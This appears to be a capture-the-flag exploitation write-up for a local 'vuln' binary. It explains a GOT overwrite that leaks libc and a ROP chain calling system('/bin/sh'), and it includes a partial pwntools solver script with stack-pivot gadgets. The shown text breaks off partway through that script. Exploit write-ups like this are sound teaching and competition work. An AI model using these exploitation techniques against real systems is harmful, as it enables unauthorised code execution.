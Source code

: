 ```py
p.interactive()
```

Applying this gives us the script above, which successfully leaks libc base. We overwrite `strlen@GOT` to `puts@PLT` (not `printf@PLT` because it uses a lot of stack space), and after we overwrite `GOT`, `strlen` gets called. The way it's set up is that `buf -> puts@GOT`, which is now `puts@PLT + 6`. But when `strlen` gets called, `puts` is called, which resolves `puts@GOT` in time for `buf` to now point to `puts@LIBC`, giving us a leak!

And we don't have to worry about the return value being greater than `0x80`, because `puts` returns the number of bytes outputted, which would be `7` (`6` for the address, `1` for the newline).

## Getting a shell

From here getting a shell is trivial. Since we have libc, we can easily find all the gadgets we need, so all we need is to write another rop chain which calls `system("/bin/sh")`.
In my rop chain I used `system`, which also uses a lot of stack space, so I made `rsp` point to a further up location again, but you could just use `execv` and not face this problem.

## Solver

```py
#!/usr/bin/python3
from pwn import *

e = ELF("./vuln")
libc = ELF("./libc.so.6")
p = e.process()

def send(data, prompt=False, leak=False):
    ret = None
    if prompt:
        p.recvuntil(b"Data: ")
    assert b"\n" not in data
    p.sendline(data)
    if leak:
        ret = p.recv(6)
        p.recv(1)   # newline
    p.recvline()
    return ret

got = 0x404000
new_rsp = got+0x800     # sufficiently large to not interfere with GOT
addr_switch = new_rsp + 0x100
# address of final rop chain
# also sufficiently large for system
addr_rop = new_rsp + 0x400

leave_ret = e.sym.main+157
fgets_gadget = e.sym.main+68    # fgets(rbp-0x80, 0x80, stdin) ; strlen(rbp-0x80) ; leave ; ret

# the idea of "switching" is 2 consecutive "leave ; ret" gadgets
# such that rbp is controlled to a value we want
# as our gets_gadget and fgets_gadget relies on rbp
# AND also ensuring rsp is a sufficiently large address
# such that the stack activity in the writable section doesn't interfere with GOT
# or cause a crash

# the first "leave ; ret" sets rbp to point to a pair of "saved rbp | return address"
# stored at `addr_switchX`, and call it new_rbp | new_ret
# and triggers a second "leave ; ret" to then pop new_rbp into rbp, and return to new_ret
# the 2nd "leave ; ret" also sets rsp to `addr_switchX`
# which for our purposes is a sufficiently large address
rbp_rip = lambda rbp, rip: p64(rbp) + p64(rip)
```